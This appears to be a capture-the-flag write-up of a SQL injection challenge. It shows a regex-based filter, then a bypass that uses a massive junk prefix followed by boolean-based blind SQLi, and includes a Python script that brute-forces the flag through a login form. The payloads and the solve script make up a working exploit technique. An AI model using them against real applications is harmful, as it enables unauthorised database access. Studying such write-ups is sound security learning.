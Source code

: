 The "Web Application Firewall" tries to block SQLi:

``` php
$sqli_regex = [
    "/(['|"])+/s",
    "/(&|\|)+/s",
    "/(or|and)+/is",
    "/(union|select|from)+/is",
    "/\/\*\*\//",
    "/\s/"
];
```

-   Blocks keywords like `or`, `and`, `union`, `select`, `from`.-   Blocks quotes `'`, `"`.-   Blocks whitespace.

⚠️ **Bypassing Idea:**- Use **comment-based whitespace bypass** (`/**/`).- Concatenate huge junk prefix to bypass regex misdetection.- Bruteforce character by character using **blind SQLi**.

------------------------------------------------------------------------

###  Exploitation

### 1. Payload Construction

The script in `solve.py` generates a massive prefix to evade regex
filtering:

``` python
prefix = 383838 * '"' 
prefix += 383838 * 'or'
prefix += 383838 * "union"
```

Then brute-forces flag with **boolean-based SQLi**:

``` sql
' or (if((select(flag)from(flags))like('BHFlagY{...%'),1,2)=1) #
```

### 2. Exploit Script (`solve.py`)

The provided Python script loops through hex characters:

``` python
for j in hex_char:
    flag = now_flag + j
    injection = {
        'username': prefix + "'or(if((select(flag)from(flags))like('" + flag + "%'),1,2)=1)#",
        'password': "password",
        'login-submit': ''
    }
    resp = requests.post(URL, data=injection, allow_redirects=False)
    if resp.status_code == 302:
        now_flag = flag
        break
```
